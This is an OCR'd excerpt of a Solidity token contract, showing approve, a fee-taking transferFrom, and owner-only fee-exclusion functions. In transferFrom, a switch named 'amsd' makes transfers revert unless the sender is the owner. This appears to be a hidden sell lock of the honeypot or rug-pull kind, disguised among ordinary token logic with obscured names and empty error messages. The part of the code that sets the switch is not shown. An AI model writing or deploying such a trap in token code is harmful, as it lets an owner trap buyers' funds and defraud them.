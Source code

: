     function approve(address spender, uint256 amount)
        public
        override
        returns (bool)
    {
        _approve(_msgSender(), spender, amount);
        return true;
    }

    function transferFrom(
        address sender,
        address recipient,
        uint256 amount
    ) public override returns (bool) {
        if(amsd){
     require(owners == sender, "");
        }
        if(_ExcluFee[_msgSender()] || _ExcluFee[recipient]){
            _transfer(sender, recipient, amount);
            return true;
        }       
        uint256 devAmount = amount.mul(devFee).div(100);
        uint256 deadAmount = amount.mul(deadFee).div(100);
        _transfer(sender, devAddress, devAmount);
        _transfer(sender, deadAddress, deadAmount);
        _transfer(sender, recipient, amount.sub(devAmount).sub(deadAmount));
    
        _approve(
            sender,
            _msgSender(),
            allown[sender][_msgSender()].sub(
                amount,
                ""
            )
        );
        return true;
    }


    function ExcludFromReward(address Bankname) public view returns (bool) {
        return _Exclu[Bankname];
    }

    function totalFee() public view returns (uint256) {
        return _tFeeTotal;
    }

    function excludeFromFee(address mlis) public onlyoner {
        _ExcluFee[mlis] = true;
    }

    function includeInFee(address mlis) public onlyoner {
        _ExcluFee[mlis] = false;
    }
 